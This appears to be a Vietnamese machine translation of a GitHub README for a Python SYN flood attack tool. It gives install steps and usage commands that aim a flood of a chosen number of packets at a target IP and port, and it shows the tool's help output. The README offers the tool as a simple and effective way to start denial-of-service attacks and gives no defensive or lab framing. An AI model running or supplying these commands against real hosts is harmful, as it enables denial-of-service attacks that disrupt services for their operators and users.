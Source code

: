 # Python2/3-SYN-Flood-Attack-Tool

[![](https://img.shields.io/github/issues/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/issues)
[![](https://img.shields.io/github/stars/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/stargazers)
[![](https://img.shields.io/github/forks/EmreOvunc/Python-SYN-Flood-Attack-Tool)](https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool/network/members)

Công cụ tấn công lũ lụt Python SYN

Bạn có thể bắt đầu cuộc tấn công SYN Flood bằng công cụ này.

Đơn giản và hiệu quả.

## Sự phụ thuộc
```
apt install python-scapy
apt install python3-scapy
```

## Cài đặt

```
git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git
cd Python-SYN-Flood-Attack-Tool
```

## Cách sử dụng

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
cách sử dụng: py3_synflood_cmd.py [--help] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]
đối số tùy chọn:
  --help, -h hiển thị thông báo trợ giúp này và thoát
  --target TARGET, -t TARGET
địa chỉ IP mục tiêu
  --port PORT, -p PORT số cổng mục tiêu
  --count COUNT, -c ĐẾM
số lượng gói tin
  --version, -v hiển thị số phiên bản của chương trình và thoát

ví dụ: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

![alt tag](https://emreovunc.com/projects/python_synflood_attack_cmd.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_01.png)

![alt tag](https://emreovunc.com/projects/Syn_Flood_02.png)
